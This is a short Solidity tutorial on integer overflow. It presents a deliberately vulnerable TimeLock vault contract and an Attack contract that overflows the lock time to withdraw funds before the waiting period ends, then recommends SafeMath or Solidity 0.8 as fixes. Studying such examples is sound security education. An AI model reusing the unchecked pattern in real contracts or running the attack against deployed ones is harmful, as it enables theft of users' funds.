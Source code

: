 # Overflow and Underflow
Overflow occurs when an unsigned integer (uint) reaches its byte size. Then the next element added will return the first variable element.

Let’s say we have a uint256, which can only have 256 bits. That means the largest number we can store is 2^256 - 1 in decimal.

Consider the code below.
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

// This contract is designed to act as a time vault.
// User can deposit into this contract but cannot withdraw for atleast a week.
// User can also extend the wait time beyond the 1 week waiting period.

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}

What happened?
Attack caused the TimeLock.lockTime to overflow and was able to withdraw
before the 1 week waiting period.

When the user deposits in the deposit contract above, the funds get locked for 1 week after which the user can withdraw.
In the deposit contract, a function has been provided to increase the timelock for the deposited fund.

When the attacker calls the withdraw function inside the deposit contract from the attack contract, the attacker can withdraw without reaching the time the funds are available for withdrawal by passing a huge number to inceaseLockTime function and therefore causing overflow.

How to prevent Over-flow
Use SafeMath to will prevent arithmetic overflow and underflow
Solidity 0.8 defaults to throwing an error for overflow / underflow

